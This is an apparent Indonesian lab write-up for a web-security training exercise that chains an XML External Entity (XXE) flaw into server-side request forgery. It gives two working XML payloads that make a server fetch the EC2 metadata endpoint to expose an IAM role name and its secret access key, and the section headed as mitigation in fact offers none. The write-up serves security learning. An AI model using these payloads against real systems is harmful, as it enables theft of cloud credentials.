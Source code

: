 # Lab: Exploiting XXE to perform SSRF attacks

## Informasi Lab
* Nama Lab: Exploiting XXE to perform SSRF attacks
* Tingkat: APPRENTICE
* Tujuan: Mengeksploitasi kerentanan XML External Entity (XXE) untuk melancarkan serangan Server-Side Request Forgery (SSRF) guna mencuri kunci akses rahasia (IAM secret access key) dari endpoint metadata EC2.

## Ringkasan Kerentanan
Aplikasi ini memiliki fitur "Check stock" yang memproses input berformat XML dari pengguna. Parser XML di sisi server dikonfigurasi secara tidak aman, sehingga rentan terhadap serangan XML External Entity (XXE).

## Langkah-langkah Eksploitasi
1.  Menemukan Nama Peran IAM (IAM Role Name)
2.  Modifikasi Permintaan: Ubah body permintaan menjadi format XML dan suntikkan payload XXE pertama kita.
3.  Kirim & Analisis Respons: Kirim permintaan tersebut. Server akan merespons dengan nama peran IAM, yang akan muncul di dalam pesan error. Misalnya: admin

## Injeksi Payload 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

* Payload untuk mendapatkan kunci rahasia:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

## Kesimpulan dan Mitigasi
Lab ini berhasil dieksploitasi dengan merangkai kerentanan XXE untuk melakukan serangan SSRF, yang berujung pada pencurian kredensial cloud.

## Bukti
<img width="1211" height="660" alt="image" src="https://github.com/user-attachments/assets/b8542cb7-f243-48b2-951d-adca8091c746" />
<img width="990" height="436" alt="image" src="https://github.com/user-attachments/assets/79661c3f-f594-4bb1-886d-0e86b9b40ca3" />
<img width="1236" height="352" alt="image" src="https://github.com/user-attachments/assets/944fba8f-d7d0-4d46-a13d-72000c8de980" />
<img width="1176" height="525" alt="image" src="https://github.com/user-attachments/assets/6e863781-e089-4fb6-a01b-987170874d32" />
<img width="938" height="517" alt="image" src="https://github.com/user-attachments/assets/633679bb-09c8-41fd-8eb0-3f7528a4d55a" />

